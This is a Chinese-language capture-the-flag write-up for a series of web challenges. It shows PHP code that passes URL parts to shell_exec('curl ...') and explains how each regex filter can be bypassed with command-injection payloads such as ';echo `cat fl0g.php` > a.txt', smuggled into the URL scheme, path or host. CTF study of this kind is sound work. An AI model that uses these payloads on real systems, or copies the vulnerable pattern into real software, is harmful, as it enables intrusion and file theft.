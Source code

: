 可以换成http和https被ban了，用file或者其他协议都行

payload：

```
?url=file://1/1;echo `ls` > a.txt
?url=file://1/1;echo `cat fl0g.php` > a.txt
```

## 403

正则里就是对ip的匹配嘛

```php
if(preg_match('/^((2[0-4]\d|25[0-5]|[01]?\d\d?)\.){3}(2[0-4]\d|25[0-5]|[01]?\d\d?)$/', $url['host'])){
    shell_exec('curl '.$url['scheme'].$url['host'].$url['path']);
}
```

payload：

```
?url=http://127.0.0.1/1;echo `ls` > a.txt
?url=http://127.0.0.1/1;echo `cat fl0g.php` > a.txt
```

## 404

像题目名称一样--，一直以为是没转好，f12提示看404.php

```php
if(preg_match('/((2[0-4]\d|25[0-5]|[01]?\d\d?)\.){3}(2[0-4]\d|25[0-5]|[01]?\d\d?)./', $url['host'])){
	if(preg_match('/^\/[A-Za-z0-9]+$/', $url['path'])){
		shell_exec('curl '.$url['scheme'].$url['host'].$url['path']);
	}
}
```

第一个判断和403的正则有点不一样，去掉了匹配字符串开始结束的`^ &`，在末尾加上了元字符`.`匹配换行以外的任意字符

第二个判断会匹配path是否只有字母数字

把rce部分放在host就行了

payload：

```
404.php?url=http://127.0.0.11;echo `ls` > a.txt||1/1
404.php?url=http://127.0.0.11;echo `cat fl0g.php` > a.txt||1/1
```



## 405

```php
if(preg_match('/((2[0-4]\d|25[0-5]|[01]?\d\d?)\.){3}(2[0-4]\d|25[0-5]|[01]?\d\d?)./', $url['host'])){
	if(preg_match('/^\/[A-Za-z0-9]+$/', $url['path'])){
		if(preg_match('/\~|\.|php/', $url['scheme'])){
			shell_exec('curl '.$url['scheme'].$url['host'].$url['path']);
        }
    }
}
```
